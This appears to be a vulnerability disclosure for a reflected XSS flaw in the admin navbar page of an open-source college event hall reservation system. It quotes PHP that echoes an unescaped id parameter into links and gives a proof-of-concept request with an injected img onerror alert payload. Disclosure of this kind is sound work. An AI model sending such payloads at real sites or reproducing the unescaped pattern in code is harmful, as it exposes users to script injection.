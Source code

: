 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS navbar.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/navbar.php

## Code
```php
 <li><a class="nav-link scrollto" href="index.php?id=<?php echo $id; ?>">Home</a></li>
                    <li><a class="nav-link scrollto" href="rooms.php?id=<?php echo $id; ?>">Rooms</a></li>
                    <li><a class="nav-link scrollto" href="users.php?id=<?php echo $id; ?>">Users</a></li>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/navbar.php?id=%22%3E%3Cimg%20src=x%20onerror=alert(%22NoChizPlz%22)%3E HTTP/1.1
Host: [REDACTED]
```

## Screenshot
